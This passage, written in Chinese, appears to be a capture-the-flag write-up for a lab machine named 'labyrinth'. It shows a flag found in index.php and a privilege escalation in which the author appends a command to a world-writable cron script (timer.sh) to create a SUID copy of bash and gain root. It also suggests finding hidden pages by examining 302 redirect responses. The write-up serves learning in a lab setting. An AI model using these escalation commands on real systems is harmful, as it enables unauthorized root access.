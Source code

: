 在网站根目录一顿看，最终跟踪到index.php发现了flag2:

    echo "<li class='nav-item'>
        <a class='nav-link' href=''>fla6{7H@T*********149}</a>

## 权限提升

在根目录下发现了：

    daemon@labyrinth:/timers$ ls -la
    ls -la
    total 12
    drwxrwxrwx  2 root root 4096 jún   15  2021 .
    drwxr-xr-x 26 root root 4096 nov    9  2021 ..
    -rwxrwxrwx  1 root root   70 jún   15  2021 timer.sh

这对应上了在开头ftp获得的那些信息

timer.sh:

    #!/bin/bash
    echo "dont fo...forge...ttt" >> /reminders/dontforget.txt

再看看dontforget.txt:

    daemon@labyrinth:/timers$ ls -la /reminders/dontforget.txt
    ls -la /reminders/dontforget.txt
    -rw-r--r-- 1 root root 41628 jan   16 10:24 /reminders/dontforget.txt
    daemon@labyrinth:/timers$ cat /reminders/dontforget.txt
    cat /reminders/dontforget.txt
    dont fo...forge...ttt
    dont fo...forge...ttt
    dont fo...forge...ttt
    ......

刷了一大堆，并且还看到txt一直在被修改，那么很明显，timer.sh是定时任务

我们有权修改，以此获得带suid的bash：

    daemon@labyrinth:/timers$ echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" >> ./timer.sh

/tmp/bash

    daemon@labyrinth:/timers$ ls -la /tmp/bash
    ls -la /tmp/bash
    -rwsr-sr-x 1 root root 1113504 jan   16 10:29 /tmp/bash
    daemon@labyrinth:/timers$ /tmp/bash -p 
    /tmp/bash -p
    bash-4.4# id
    id
    uid=1(daemon) gid=1(daemon) euid=0(root) egid=0(root) groups=0(root),1(daemon)

成功getroot

root.txt:

    bash-4.4# cat /root/da_king_flek.txt 
    cat /root/da_king_flek.txt
    fL4G{YoU_*******9ra7$}

## 补充

对于echo.php，我在想如何找到它，因为gobuster可能无法扫的出来又或者非常麻烦，因为非管理员访问echo.php会302跳转走。其实我们可以使用python，requests禁止重定向，然后判断截获所有302的响应，判断响应体的length是否大于0，也就是判断响应体是否有数据，有数据，那么大概率该页面是存在的，这样我们就可以在未登录的情况下扫描到类似echo.php的页面文件了

事后我还去多了解了一下302重定向，大致跟这里差不多
